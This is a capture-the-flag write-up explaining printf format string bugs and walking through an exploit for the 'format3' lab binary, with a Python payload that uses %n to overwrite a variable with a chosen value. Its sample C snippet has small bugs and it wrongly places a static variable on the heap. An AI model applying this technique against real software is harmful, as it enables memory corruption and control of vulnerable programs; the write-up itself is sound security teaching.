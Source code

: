 ```yaml
---
title:  "format3 Writeup"
date:   2019-03-27 11:08:00
categories: writeup 
layout: post
---
```


**Writeup by: Thomas White (2019)**

The basis for the `format` problems are exploiting one of the many variations of `printf` in C. At first glance, it seems odd that a function as simple `printf` would be vulnerable. It just puts characters in the terminal, right? To gain some more insight, let's look at the flags you can use construct a format string out of (table abridged from [wikipeida](https://en.wikipedia.org/wiki/Printf_format_string#Type_field)):

| Character | Description |
|-----------|-------------|
| ...       | ... |
| "d, i"    | int as a signed decimal number ...|
| u         | Print decimal unsigned int.|
| "f, F"    | double in normal (fixed-point) notation ...|
| "e, E"    | double value in standard form ...|
| "g, G"    | double in either normal or exponential notation ... |
| "x, X"    | unsigned int as a hexadecimal number ... |
| o         | unsigned int in octal.|
| s         | null-terminated string.|
| c         | char (character).|
| ...       | ... |
| "a, A"    | double in hexadecimal notation ...|
| **n**     | Print nothing, but **writes the number of characters successfully written so far into an integer pointer** ...|

That looks interesting! It seems `printf` is not only allowed to 'print' to the terminal, but can also 'print' to a memory address. A legitimate use of this could look something like:

```c
int character_limit = 30;
int characters_input = 0;
printf("You input: ");
printf("%s%n\n", user_input, &character_limit);
if(characters_input > character_limit){
    printf("Maximum characters allowed is %d\n", chacter_limit);
    exit(1);
}
```
With `%n` in mind, let's take a brief look at the source code for `format3`:
```c
void printbuffer(char *string)
{
  printf(string);
}
 ...

void vuln()
{
 ...
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);

  if(target == 0x01025544) {
    printf("you have modified the target correctly :)\n");
 ...
}
```
We see this time is that we are going to make `target = 0x01025544`. The first step to this is to find where our input is going to be relative to the `printf` call. We can do this by simply running the program.
```bash
python -c 'print "AABB"+" %x"*20' | ./format3

AABB f7f73e20 f7dd8fbb 0 f7f4b000 0 ffb49a68 8048527 ffb4981c 200 f7f4b5c0 f7f7080a f7f86000 f7d77dc8 f7f59580 42424141 20782520 25207825 78252078 20782520 25207825
target is 00000000 :(
```
Notice that in the 15th `%x` we see the beginning of our input AABB as hex `42424141`. Now we know that we need 15 format string flags in order to read the first 4 bytes of our input.

Next we need to find the address of `target` to put in our exploit string. Load up the binary in gdb and run:
```gdb
(gdb) b main
Breakpoint 1 at 0x80485b2: file format3.c, line 35.
(gdb) r
Starting program: /home/vagrant/challenges/format3r/format3
Breakpoint 1, main (argc=0x1, argv=0xffffd5e4) at format3.c:35
35        vuln();
(gdb) info address target
Symbol "target" is static storage at address 0x804a048.
```
As we can see, `target` is located at `0x804a048`. We also know that `target` is stored on the heap, and therefore the address will be the same in and out of gdb.

If we pull this all together, our current exploit string looks like `python -c "print '\x48\xa0\x04\x08'+'%x'*15"` which would stop printing after it prints `804a048`. We need to subtract 1 `%x` and replace it with a `%n` for the value of `target` to get changed, so let's see what happens when we run
```bash
python -c "print '\x48\xa0\x04\x08'+'%x'*14+'%n'" | ./format3

Hf7fe7e20f7e4cfbb0f7fbf0000ffb6a5b88048527ffb6a36c200f7fbf5c0f7fe480af7ffa000f7debdc8f7fcd580
target is 00000060 :(
```
Great! We are setting values! `target` is now equal to `0x60`. Now we just need to do the character math to make it `target` equal `0x01025544`.
First let's replace all the `%x` with `%c` to ensure that 1 character is printed out per format string flag. Let's leave the last `%x` to allow us to specify padding and get the exact value we want in `target`. `0x01025544` in decimal is `16930116`. Then we do some subtraction:`16930116 characters needed - 13 %c's - 4 (target address) = 16930099 additional characters to print`.

This yields a format string of `python -c "print '\x48\xa0\x04\x08'+'%c'*13+'%.16930099x'+'%n'"`. Let's run it and see what it does:
```bash
python -c "print '\x48\xa0\x04\x08'+'%c'*13+'%.16930099x'+'%n'" | ./format3

you have modified the target correctly :)
flag: hello world!
```